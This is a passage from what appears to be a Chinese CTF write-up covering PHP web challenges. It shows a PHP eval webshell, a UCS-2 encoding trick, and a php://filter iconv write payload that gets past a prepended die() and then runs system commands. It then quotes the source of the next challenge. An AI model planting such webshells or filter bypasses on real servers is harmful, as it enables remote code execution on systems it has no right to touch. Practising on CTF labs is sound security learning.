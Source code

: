 跟web87类似，但`rot13和base64`都被过滤了，则需要采用另外的编码方式：

把一句话木马从 UCS-2LE 编码转换为 UCS-2BE 编码：

```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
```

运行得到：

```php
?<hp pe@av(l_$EG[T]1;)>?
```

post 传入：

```php
contents=?<hp pe@av(l_$EG[T]1;)>?    
```

payload：

```
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
```

之后调用 a.php：

```
/a.php?1=system('ls');
```

跟前面一样的道理，传入的一句话木马是先经过一遍编码转换的，之后又通过过滤器将其还原

而题目添加进去的 `<?php die();?>` 则会被过滤器转换成无法识别的文本内容，导致无法执行。

可以来[这里](https://www.php.net/manual/zh/mbstring.supported-encodings.php)查看支持的编码，一般来说写文件都是要用filter协议



---

## PHP特性

#### web89

提示代码为：

```
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```
